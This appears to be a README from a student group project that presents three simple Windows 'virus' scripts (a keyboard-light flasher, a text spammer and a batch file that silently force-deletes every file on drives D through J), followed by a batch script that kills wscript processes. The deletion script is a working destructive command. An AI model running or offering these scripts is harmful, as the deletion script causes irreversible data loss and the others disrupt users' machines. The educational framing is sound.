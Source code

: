 # VBS and BAT Viruses - Group Work

This document is made as an educational material about potentially harmful scripts and how to protect against them. **DO NOT EXECUTE ANY OF THESE SCRIPTS** because they can damage your system.

### 1. Keyboard Lights Flasher (key.vbs)
```vbs
Set wshShell =wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "{CAPSLOCK}"
wscript.sleep 100
wshshell.sendkeys "{NUMLOCK}"
wscript.sleep 100
wshshell.sendkeys "{SCROLLLOCK}"
loop
```
**Effect:** This script keeps switching the Caps Lock, Num Lock, and Scroll Lock keys on and off, which makes the keyboard lights flash non-stop. It won’t damage your data, but it can definitely get annoying.

### 2. Formatter (form.bat)
```bat
@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q
```
**Effect:** This script is really risky because it tries to delete every file on drives D upto J. The deletion goes like this:
- Silent (`/q` parameter)
- Forced (`/f` parameter) 
- Recursive through all subdirectories (`/s` parameter)

**WARNING:** Running this script can lead to permanent data loss. Once you delete the files, it's tough to get them back without special recovery tools, and even they might not bring everything back. It's like a one time hit and run that can do serious damage right away.

### 3. Text Spammer (txtspm.vbs)
```vbs
Set wshShell = wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "This is a harmless virus"
loop
```
**Effect:** This script types out "This is a harmless" virus wherever your cursor is. It can mess with your work by making it tough to type normally and could lead to some accidental things happening if it gets typed into command prompts or other apps.

## Antivirus Solution (ant.bat)

Here’s a script that can help stop harmful VBS scripts like the keyboard flasher and text spammer:

```bat
@echo off
echo Script Terminator - Emergency System Protection
echo =============================================
echo.
echo Scanning for malicious processes...
tasklist | findstr "wscript.exe" > nul
if %ERRORLEVEL% EQU 0 (
    echo ALERT: Found wscript.exe running!
    echo Terminating all wscript processes...
    taskkill /f /im wscript.exe
    echo Process terminated successfully.
) else (
    echo No malicious wscript processes found.
)
echo.
echo Checking system integrity...
echo.
echo NOTE: If files were deleted by the formatter script,
echo immediate actions are required:
echo 1. Disconnect the affected drives
echo 2. Do not write any new data to them
echo 3. Use professional data recovery services or software like recuva
echo   because deleted files are NOT recoverable through standard ways
echo.
echo While this script can stop active malicious scripts,
echo it CANNOT recover files deleted by the formatter script.
echo That damage is irreversible without professional recovery tools.
echo.
pause
```

You can find other batch script and powershell based scripts at [OSSPG4](https://osspg4.vercel.app/#virus-production-and-protection)
